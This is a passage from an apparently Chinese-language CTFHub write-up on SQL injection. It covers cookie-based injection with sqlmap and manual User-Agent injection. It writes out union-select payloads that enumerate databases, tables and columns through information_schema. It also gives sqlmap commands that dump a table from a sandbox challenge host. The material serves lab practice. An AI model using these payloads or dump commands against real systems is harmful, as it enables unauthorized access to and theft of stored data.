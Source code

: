 ![image-20220609185118785](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185118785.png)

查询字段名

![image-20220609185238785](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185238785.png)

查询字段信息

-1 union select 1,group_concat(kgsdqlfoph) from sqli.ylrpuanbhl

![image-20220609185840546](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185840546.png)

##### 方法二：sqlmap

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 --dbs
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609191129064.png" alt="image-20220609191129064" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli --tables
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609192236679.png" alt="image-20220609192236679" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli -T ylrpuanbhl --columns --dump
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609192411795.png" alt="image-20220609192411795" style="zoom:80%;" />



#### ***UA注入

##### 方法一：手动注入

**对UA进行注入判断：**-1 union select 1,2

![image-20220609214024321](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609214024321.png)

**得到数据库名：** -1 union select 1,database()

![image-20220609213032122](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213032122.png)

**查询数据库的表名：**-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220609213339807](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213339807.png)

**查询wvzxmdldse的字段名（列名）：**-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='wvzxmdldse'
